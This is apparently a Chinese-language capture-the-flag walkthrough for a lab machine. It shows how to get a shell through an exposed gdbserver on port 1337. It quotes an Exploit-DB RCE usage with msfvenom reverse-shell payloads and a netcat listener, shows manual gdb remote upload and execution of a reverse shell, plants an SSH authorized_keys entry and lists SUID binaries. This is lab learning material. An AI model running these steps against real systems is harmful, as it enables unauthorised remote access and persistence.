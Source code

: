 注意到有个`gdbserver`监听在`1337`端口,可以利用这个`gdbserver`去getshell

[GNU gdbserver 9.2 - Remote Command Execution (RCE) ](https://www.exploit-db.com/exploits/50539)

```
Usage: python3 {sys.argv[0]} <gdbserver-ip:port> <path-to-shellcode>

Example:
- Victim's gdbserver   ->  10.10.10.200:1337
- Attacker's listener  ->  10.10.10.100:4444

1. Generate shellcode with msfvenom:
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.100 LPORT=4444 PrependFork=true -o rev.bin

2. Listen with Netcat:
$ nc -nlvp 4444

3. Run the exploit:
$ python3 {sys.argv[0]} 10.10.10.200:1337 rev.bin
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201291939107.png)

---

也可以手动getshell

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.7 LPORT=4000 -f elf -o /tmp/rev`生成反弹文件,同时在`4000`端口开启监听

在本地开启`gdb`,同时设置远程连接`target extended-remote 10.10.11.125:1337`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201291948492.png)

```
cd /tmp
remote put rev rev
set remote exec-file /home/user/rev
run
```

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201291953687.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201291955494.png)

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201291955990.png)

---

在`~/.ssh`下面加个`authorized_keys`以便ssh连接

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/PicGoImg@master/202201291943681.png)

```
find / -user root -perm -4000 -print 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/fusermount
/usr/bin/screen
/usr/bin/umount
```